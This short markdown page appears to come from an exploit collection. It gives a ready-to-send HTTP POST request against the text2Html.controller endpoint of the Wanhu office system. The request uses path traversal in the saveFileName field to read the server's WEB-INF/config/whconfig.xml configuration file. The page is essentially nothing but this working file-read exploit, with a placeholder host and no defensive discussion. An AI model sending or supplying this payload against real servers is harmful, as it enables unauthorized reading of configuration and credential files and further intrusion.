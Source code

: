 # wanhu_text2html_fileread
from: https://blog.csdn.net/luochen2436/article/details/135085694
```
POST /defaultroot/convertFile/text2Html.controller HTTP/1.1
Host: you_ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.124 Safari/537.36
Connection: close
Content-Length: 75
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
SL-CE-SUID: 1081

saveFileName=123456/../../../../WEB-INF/config/whconfig.xml&moduleName=html
```
